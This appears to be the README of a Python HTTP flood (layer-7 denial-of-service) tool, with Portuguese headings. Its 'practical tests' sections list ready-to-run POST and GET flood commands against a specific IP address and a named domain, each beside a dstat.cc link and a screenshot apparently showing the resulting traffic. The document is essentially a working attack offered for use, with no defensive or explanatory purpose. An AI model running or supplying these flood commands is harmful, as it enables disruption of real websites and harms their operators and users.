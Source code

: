 # Python-HTTP-Flood

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
`python main.py http://142.171.195.145/HIT GET 500`

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
`python main.py https://nodec.mediathektv.com GET 700`
